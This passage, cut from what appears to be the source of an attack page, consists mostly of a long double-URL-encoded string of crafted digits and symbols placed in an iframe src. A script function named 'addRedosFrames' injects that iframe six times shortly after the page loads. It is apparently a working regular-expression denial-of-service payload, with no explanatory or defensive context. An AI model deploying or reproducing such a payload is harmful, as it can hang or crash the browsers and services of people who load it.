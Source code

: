 ```html
%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%255%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%ffsdcdcsdsdcsdcdscdcsccsdcsdcscsdcd9876543456&&name=dcsdcscdsc"
    ></iframe>`;
        var container = document.querySelector(".container");
        container.innerHTML = ele;
        for (var i = 0; i < 5; i++) {
          container.innerHTML += ele;
        }
      }

      setTimeout(addRedosFrames, 50);
    </script>
  </body>
</html>
```
